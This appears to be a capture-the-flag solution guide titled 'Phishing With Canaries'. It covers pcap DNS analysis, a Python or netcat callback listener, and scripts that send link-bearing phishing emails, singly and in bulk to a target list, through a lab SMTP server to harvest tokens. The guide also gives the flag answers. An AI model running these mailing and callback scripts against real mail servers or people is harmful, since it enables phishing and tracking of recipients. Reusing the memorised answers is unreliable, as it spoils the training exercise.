







# Phishing With Canaries

*Solution Guide*

## Overview

Analyze network activity, develop a custom canary token server, and identify key responders from a target list to uncover the final flag. 

## Part 1 - What domain did the PDF file connect to?

1. Start by analyzing the pcap file from `challenge.us`.

The prompt specifically asks for "what domain" did the PDF connect to. This is a clue that you should be looking for dns traffic. You can run a simple `dns` query in Wireshark to see all of the DNS requests. 

A majority of the traffic looks like benign network traffic that is to be expected. However, about 80% of the way down the pcap, there is a series of queries for a suspicious-looking domain: `arvc04xi09xk1xfp53y08baja.canarytokens.net`

The background information for this challenge referenced canary tokens, which is another clue that this is the correct answer. 



## Part 2 - What is the custom User-Agent string provided(4 characters)?

1. Create a TCP server to listen to callbacks that are triggered by the canary. 

This can be done by writing a small python script called `listener.py` and run it using `python listener.py`

```py
import socket

def start_canary_server(host="0.0.0.0", port=5000):
    """
    Starts a simple TCP server to act as an internal canary token.
    """
    server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        server_socket.bind((host, port))
        server_socket.listen(5)
        print("Canary token listening on {}:{}".format(host, port))
        
        while True:
            try:
                conn, addr = server_socket.accept()
                print("Connection from {}".format(addr))
                try:
                    data = conn.recv(1024).decode('utf-8')  # Read data from the connection
                    print(f"Access attempt from {addr}: {data}")
                finally:
                    conn.close()
            except Exception as e:
                print("Error: {}".format(e))
    finally:
        server_socket.close()

if __name__ == "__main__":
    start_canary_server()
```

Alternatively, instead of the Python server, you can set up a basic netcat listener.

```bash
nc -lvnp 5000
```

2. Connect to the SMTP mail server on `10.5.5.87:1025` to send an email containing a link that will connect to our callback server

This can be done by writing a small python script called `mail.py` and run it using `python mail.py`

```py
import smtplib
from email.mime.text import MIMEText

# Define email parameters
from_addr = "user0000@internal"
to_addr = "user0000@internal"
subject = "CTF Challenge"
body = "http://10.5.5.??:5000" # Update with your Kali machine's IP address

# Create MIMEText message
msg = MIMEText(body)
msg['Subject'] = subject
msg['From'] = from_addr
msg['To'] = to_addr

# Connect to the mail server
server = smtplib.SMTP('10.5.5.87', 1025)
server.sendmail(from_addr, [to_addr], msg.as_string())
server.quit()

print("Email sent successfully!")
```

Alternatively, you can use netcat and follow the SMTP protocol. Make sure to replace the `10.5.5.??` ip address with the IP address of your Kali machine.

```bash
printf "HELO internal\r\nMAIL FROM:<attacker@internal>\r\nRCPT TO:<user0000@internal>\r\nDATA\r\nSubject: Important Update\r\n\r\nClick the link below to proceed:\r\nhttp://10.5.5.??:5000\r\n\r\n.\r\nQUIT\r\n" | nc 10.5.5.87 1025
```



You can find your Kali machine's IP address by using `ifconfig eth0` and looking at the `inet` field.



3. Check the results of your callback server. You will find the token in the "User-Agent" header

With the Python script:



With the netcat listener:



Here you can see the 4 characters in the custom user agent are "clck"

## Part 3 - What is token #5(6 hex characters)?

1. Download the `part_3.txt` list of email addresses from the `challenge.us` server. 

2. Start up the callback server (the `listener.py` script) from Part 2, Step 1. You will want to redirect the output to a log file for later searching

```bash
python3 listener.py > output.log
```

2. Write a script to automate the process from part 2 to send emails to all of the email addresses in `part_3.txt`

```py
import smtplib
from email.mime.text import MIMEText

# Define email parameters
from_addr = "user6574@internal"
subject = "CTF Challenge"
body = "http://10.5.5.?:5000" # Update with your Kali machine's IP address

# Read target email addresses from targets.txt
with open("part_3.txt", "r") as file:
    targets = [line.strip() for line in file if line.strip()]

# Connect to the mail server
server = smtplib.SMTP('10.5.5.87', 1025)

# Send email to each target
for to_addr in targets:
    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = from_addr
    msg['To'] = to_addr
    server.sendmail(from_addr, [to_addr], msg.as_string())
    print(f"Email sent to {to_addr} successfully!")

server.quit()
```

3. Look through the responses and find Token #5

Note - prior to view `output.log`, you should stop `listener.py` (Ctrl+C) to write any buffered data to the `output.log` file. 

Start by searching for the "User-Agent"

```bash
cat output.log | grep User-Agent
```



You should easily be able to identify at least one of the tokens from the response. From here, you will see the format of the relevant user agents is "TOKEN-#". You can use this information to perform a more specific search.

```bash
cat output.log | grep User-Agent | grep TOKEN-5
```



You should now see a single result, with the token 5 value being, "bafe79" in this case.
